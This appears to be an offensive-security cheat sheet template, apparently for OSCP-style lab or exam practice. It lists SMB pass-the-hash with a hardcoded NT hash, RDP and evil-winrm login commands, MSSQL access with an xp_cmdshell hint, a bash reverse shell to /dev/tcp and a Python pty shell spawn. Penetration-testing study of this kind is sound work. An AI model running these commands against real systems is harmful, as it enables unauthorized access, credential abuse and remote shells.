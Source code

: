 - PTH
```
smbclient \\\\<%tp.frontmatter.IP%>\\sysvol -U <%tp.frontmatter.Username%> --pw-nt-hash e728ecbadfb02f51ce8eed753f3ff3fd
```

## RDP

### Local Access
```
rdesktop -u <%tp.frontmatter.Username%> -p <%tp.frontmatter.Password%>  <%tp.frontmatter.IP%>
```

### Domain Access
```
xfreerdp /u:<%tp.frontmatter.Username%> /p:'<%tp.frontmatter.Password%>' /d:relia.com  /v:<%tp.frontmatter.IP%> 
```
## WinRM
### EvilWinWM
```
evil-winrm -u <%tp.frontmatter.Username%> -p <%tp.frontmatter.Password%> -i <%tp.frontmatter.IP%>
```
- Pass the hash
```
evil-winrm -u <%tp.frontmatter.Username%> -H <Hash> -i <%tp.frontmatter.IP%>
```

## MSSQL
### MSSQL.PY
```
mssqlclient.py -windows-auth oscp.exam/<%tp.frontmatter.Username%>:<%tp.frontmatter.Password%>@<%tp.frontmatter.IP%>
```

- Try xm_cmdshell as in the webapp section


## Reverse Shells

### Bash
```
bash -i >& /dev/tcp/<%tp.frontmatter.IP%>/<%tp.frontmatter.Port%> 0>&1
```

### Python Spawn Shell
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
